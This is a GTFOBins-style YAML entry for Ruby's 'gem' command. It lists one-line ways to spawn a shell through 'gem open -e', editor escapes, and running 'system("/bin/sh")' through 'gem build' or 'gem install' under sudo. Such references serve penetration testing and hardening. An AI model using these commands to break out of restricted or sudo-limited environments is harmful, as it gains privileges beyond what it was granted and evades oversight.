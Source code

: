 ```yaml
---
functions:
  shell:
    - description: This spawns an interactive shell. Requires the name of an installed gem to be provided (`json` is usually installed).
      code: gem open -e "/bin/sh -c /bin/sh" json
  sudo:
    - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/). Requires the name of an installed gem to be provided (`json` is usually installed).
      code: |
        sudo gem open json
        :!/bin/sh
    - description: This executes an arbitrary command as the gem editor. Requires the name of an installed gem to be provided (`json` is usually installed).
      code: sudo gem open -e "/bin/sh -c /bin/sh" json
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        sudo gem build $TF/x
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        sudo gem install --file $TF/x
---
```

